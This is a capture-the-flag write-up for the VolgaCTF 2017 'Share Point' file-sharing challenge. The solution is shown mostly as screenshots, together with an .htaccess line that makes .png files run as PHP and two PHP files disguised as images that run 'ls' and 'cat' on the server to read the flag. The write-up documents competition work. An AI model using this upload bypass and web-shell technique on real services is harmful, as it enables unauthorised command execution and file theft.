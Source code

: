 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is optimal

### Solution
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)
```
AddHandler application/x-httpd-php .png
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)
file "ls.png":
```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
file "cat.png":
```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_6.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
